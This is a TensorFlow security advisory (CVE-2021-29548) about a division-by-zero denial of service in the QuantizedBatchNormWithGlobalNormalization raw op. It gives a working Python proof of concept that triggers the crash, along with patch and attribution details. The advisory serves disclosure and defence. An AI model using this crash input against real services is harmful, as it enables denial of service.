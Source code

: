 ## TFSA-2021-036: Division by 0 in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29548

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
t_min = tf.constant(-10.0, dtype=tf.float32)
t_max = tf.constant(-10.0, dtype=tf.float32)
m = tf.constant([], shape=[0], dtype=tf.quint8)
m_min = tf.constant(-10.0, dtype=tf.float32)
m_max = tf.constant(-10.0, dtype=tf.float32)
v = tf.constant([], shape=[0], dtype=tf.quint8)
v_min = tf.constant(-10.0, dtype=tf.float32)
v_max = tf.constant(-10.0, dtype=tf.float32)
beta = tf.constant([], shape=[0], dtype=tf.quint8)
beta_min = tf.constant(-10.0, dtype=tf.float32)
beta_max = tf.constant(-10.0, dtype=tf.float32)
gamma = tf.constant([], shape=[0], dtype=tf.quint8)
gamma_min = tf.constant(-10.0, dtype=tf.float32)
gamma_max = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc)
does not validate all constraints specified in the [op's
contract](https://www.tensorflow.org/api_docs/python/tf/raw_ops/QuantizedBatchNormWithGlobalNormalization).

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/galeone/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

